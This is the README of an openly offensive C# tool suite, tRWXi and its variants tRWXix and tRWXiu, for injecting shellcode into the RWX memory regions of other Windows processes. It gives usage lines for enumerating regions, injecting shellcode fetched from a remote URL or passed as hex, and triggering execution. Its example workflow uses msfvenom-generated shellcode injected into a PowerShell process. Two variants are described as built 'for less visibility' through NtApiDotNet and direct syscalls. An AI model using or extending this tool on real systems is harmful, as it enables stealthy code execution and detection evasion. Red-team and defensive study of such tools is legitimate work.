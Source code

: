 # tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Generate a shellcode in a numeric format (msfvenom -f num):
![shellcode_format](./_readme.d/01-injector-2.png)
- Enumerate the RWX memory regions in all processes that the current user can access:
![RWX enumeration](./_readme.d/01-injector-3.png)
- Inject a shellcode into the RWX region (address:0x1CD1F910000) of the powershell process (PID:6772) and trigger it:
![shellcode_injection](./_readme.d/01-injector-4.png)

# tRWXix

tRWXi functionality w/ NtApiDotNet library

### Description
Same functionality as of **tRWXi**.\
Pure [**NtApiDotNet**](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) implementation for less visibility.\
For PS scripting: use [**NtObjectManager**](https://www.powershellgallery.com/packages/NtObjectManager/2.0.1) module, which utilizes NtApiDotNet to expose NT object manager.

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Inject the shellcode in a process from a remote web server and trigger its execution:
![shellcode_format](./_readme.d/02-injector-1.png)
- Read the modified address:
![RWX enumeration](./_readme.d/02-injector-2.png)
- Trigger the memory region w/ a shellcode inside it
![RWX enumeration](./_readme.d/02-injector-3.png)

# tRWXiu

### Description
Implementated using Nt direct syscalls for less visibility.

### Usage:
```
Usage:
        .\tRWXiu.exe /pid=<pid> /address=<address> /data=<data> [/verbose]
```
